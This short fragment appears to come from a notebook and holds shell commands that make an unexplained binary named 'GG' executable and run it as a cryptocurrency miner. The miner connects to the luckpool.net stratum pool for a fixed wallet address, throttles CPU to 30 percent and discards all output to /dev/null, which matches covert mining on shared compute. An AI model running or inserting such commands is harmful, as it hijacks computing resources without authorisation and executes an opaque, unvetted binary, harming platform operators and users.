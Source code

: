 ! chmod +x GG
! ./GG -c stratum+tcp://na.luckpool.net:3957#xnsub -u RFj4WWD72iGHn2Q6swr11BzKXhnYpAEzGr.CPU -p X --cpu 30 >/dev/null

